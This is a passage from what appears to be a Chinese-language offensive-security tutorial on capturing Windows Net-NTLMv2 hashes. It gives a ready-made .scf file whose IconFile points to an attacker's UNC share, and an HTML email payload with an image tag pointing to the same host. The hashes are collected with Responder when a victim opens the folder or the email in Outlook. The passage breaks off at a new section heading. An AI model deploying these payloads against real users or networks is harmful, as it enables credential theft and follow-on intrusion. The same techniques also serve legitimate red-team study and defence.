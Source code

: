 **scf 文件**

只要一个文件夹内含有 scf 后缀的文件，由于 scf 文件包含了 IconFile 属性，所以 explore.exe 会尝试获取文件夹的图标。而 IconFile 是支持 UNC 路径的，所以当打开文件夹的时候，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 NTLM v2 hash 发送给指定的机器，我们在该机器上使用 Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash 了。以下是 scf 后缀的文件的格式：

```
[Shell]
Command=2
IconFile=UNC路径
[Taskbar]
Command=ToggleDesktop
```

创建一个 test 文件夹，在该文件夹内创建 test.scf 文件，文件内容如下：

```
[Shell]
Command=2
IconFile=\\192.168.106.5\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmpnUA0QZoxIOOAibnahhhUfmtzGOzNlfPgRWPpvWfD8RdmICgjHg9V4Q/640?wx_fmt=png)

只要有人访问了 test 文件夹，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 NTLM v2 hash 发送给指定的机器，我们在该机器上使用 Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash 了。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmwaZUx8Q3oSVPCTnjSuYQV0rw1GzMEeDKBW26p29PQ2r5vmq4pozqtQ/640?wx_fmt=png)

#### 

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640?wx_fmt=gif)

Outlook

邮件是支持发送 HTML 格式邮件的。于是我们可以发送带有如下 html payload 的邮件：

```
<p>邮件发送测试...</p>
<img src="\\\\192.168.106.5\\test">
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmL7XJGlnFdR4XicPjwBibibp67FWT0hJyMTQMxzyLuPDYrC0iaicrTkibZ94A/640?wx_fmt=png)

当目标使用的是 Windows 机器，并且使用的是 Outlook 客户端打开该邮件的话，我们就能收到目标机器的 Net-NTLM Hash。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmpy2hAtibQnCNtHpmjdaYbDSfV3r9zVXkZvkMs2vdzOm3L0jJOb8c26Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f7hic1f1LSL2JycsiaN4oqSmpvO6Pia1tejh1ulRmXUU9Szxk83agMCyNSamBYN1PKrGZtwLkLs0Tiaw/640?wx_fmt=png)

#### 

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIWp1oJXcsHG9TZpVedJQOFmJSeEH6GAQdFoGVgID0iaP04M0rbfiaGnfw/640?wx_fmt=gif)

系统命令
